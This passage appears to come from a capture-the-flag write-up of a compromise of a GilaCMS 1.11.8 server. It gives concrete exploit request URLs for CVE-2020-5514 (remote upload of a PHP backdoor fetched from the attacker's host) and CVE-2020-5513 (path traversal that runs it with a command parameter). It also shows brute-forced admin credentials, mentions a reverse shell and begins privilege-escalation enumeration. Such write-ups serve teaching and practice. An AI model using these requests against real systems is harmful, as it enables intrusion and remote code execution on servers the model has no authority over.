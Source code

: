 running this provides us with the following

```sh
$ bash brutes.sh
admin@pcprincipal.echocity-f.com gilacms seems valid
```

And indeed using these details grants us access to the admin console of GilaCMS and another flag. Furthermore, we are also provided with the actual version of this GilaCMS installation which is `1.11.8`

With the new information at hand i switch my attention at the CVE's for this version and particularly the ones which can lead us to RCE.

My first target was CVE-2020-5514 which would allow us to upload a php file of our liking. The vulnerability seems fairly easy to exploit, all we have to do is make a request at `/gila/lzld/thumb?src={URL_OF_PHP_FILE_TO_UPLOAD}&media_thumb=80` replacing the `{URL_OF_PHP_FILE_TO_UPLOAD}` with one of our own.

In my case the final url to be requested looked like this

```
http://10.0.100.32/gila/lzld/thumb?src=http://10.10.0.11:4444/t.php&media_thumb=80
```

The file gets uploaded but we dont have access to it because it is protected by an apache .htaccess rule. After investigating the source code i deducted that the files are being uploaded on `gila/tmp` with a filename name that resembles the original url from which it got downloaded.

So for our url `http://10.10.0.11:4444/t.php` we get a file named `http_10.10.0.11_4444_t.php`.

Next attempt was to utilize the CVE-2020-5513 LFI vulnerability and execute our newly uploaded backdoor.

Again studying the vulnerability revealed that the exploitation is also fairly simple, all we have to do is a request at `/gila/cm/delete?t={INJECTION_PATH}`, replacing `{INJECTION_PATH}` with our own.

First i need to discover how i can get access to the file i have uploaded to the tmp folder. So i tested injecting the `robots.txt` like so

-   `?t=robots.txt` nothing
-   `?t=../robots.txt` nothing
-   `?t=../../robots.txt` bingo

So now i know i need to go two levels up and request my uploaded file `http://10.0.100.32/gila/cm/delete?t=../../tmp/http_10.10.0.11_4444_t.php&cmd=ls%20-la`

Now we have a way to execute system commands as the user running the webserver which in our case is `www-data`.

A reverse shell later and we can keep on working to escalate our privileges.

Escalating our access to root requires a further investigation. Checking running processes and services shows the following

1.  `/usr/sbin/mysqld` The MySQL database
2.  `logger -t mysqld -p daemon error` The logger utility used by mysql to send messages to syslog
3.  `/usr/sbin/sshd` The SSH daemon
4.  `/usr/bin/etcd` The etcd directory based key/value store. You've seen this if you have worked with kubernetes before.
5.  `/bin/bash /usr/local/bin/etcd-feeder.sh` A script that we dont have permissions to read
6.  `/usr/sbin/apache2 -k start` The processes for apache web server
7.  `/work/src/github.com/kelseyhightower/confd/bin/confd` A daemon to manage local application configuration files using templates and data from etcd or consul.
